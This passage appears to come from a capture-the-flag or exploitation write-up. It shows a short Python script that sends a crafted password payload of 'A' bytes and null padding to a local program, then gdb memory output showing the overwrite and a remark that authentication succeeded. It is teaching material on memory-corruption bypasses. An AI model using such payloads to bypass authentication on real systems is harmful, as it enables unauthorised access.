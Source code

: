 
```python
import interact
import struct

p = interact.Process()
data = p.readuntil('Enter password:')
p.sendline('A' * 8 + '\0' * 24  + 'A' * 8 + '\0' * 8)

p.interactive()
```

When we send the payload this time and check the memory in gdb, we see the following:

```gdb
wdb> x/10gx $rbp-0x50
0x7fffffffed80: 0x4141414141414141    0x0000000000000000
0x7fffffffed90: 0x0000000000000000    0x0000000000000000
0x7fffffffeda0: 0x4141414141414141    0x0000000000000000
0x7fffffffedb0: 0x445247534950000a    0x0055544554544655
0x7fffffffedc0: 0x00007fffffffeeb0    0x0d038f4d14f40000
```

At this point we can type continue in the debuger and see that we have authenticated. 
